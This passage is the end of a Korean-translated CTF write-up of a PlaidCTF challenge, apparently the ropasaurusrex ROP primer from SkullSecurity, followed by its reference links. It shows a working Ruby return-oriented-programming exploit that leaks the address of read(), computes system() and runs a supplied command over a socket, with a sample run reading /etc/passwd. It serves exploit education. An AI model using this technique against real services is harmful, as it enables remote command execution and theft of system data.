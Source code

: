 ``` ruby
    # pop/pop/pop/ret's stack frame
    read_addr,

    # write()'s stack frame
    # This frame gets the address of the read() function from the .plt
    # entry and writes to to stdout
    4,           # length of an address
    read_addr_ptr, # address of read()'s .plt entry
    1,           # stdout
    pppr_addr,   # retrurn address

    # pop/pop/pop/ret's stack frame
    write_addr,

    # read()'s stack frame
    # This reads the command we want to run from the socket and puts it
    # in our writable "buf"
    cmd.length,  # number of bytes
    buf,         # writable memory (cmd buf)
    0,           # stdin
    pppr_addr,   # read()'s return address

    read_addr # Overwrite the original return
  ].reverse.pack("I*") # Convert a series of 'ints' to a string

# Write the 'exploit' payload
s.write(payload)

# When our payload calls read() the first time, this is read
s.write(cmd)

# Get the result of the first read() call, which is the actual address of read
this_read_addr = s.read(4).unpack("I").first

# Calculate the address of system()
this_system_addr = this_read_addr - read_system_diff

# Write the address back, where it'll be read() into the correct place by
# the second read() call
s.write([this_system_addr].pack("I"))

# Finally, read the result of the actual command
puts(s.read())

# Clean up
s.close()
```

그리고 실행 결과다:

``` sh
$ ruby sploit.rb "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
[...]
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[^1]: 링크가 [바뀌었다](https://wiki.skullsecurity.org/Assembly).
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump
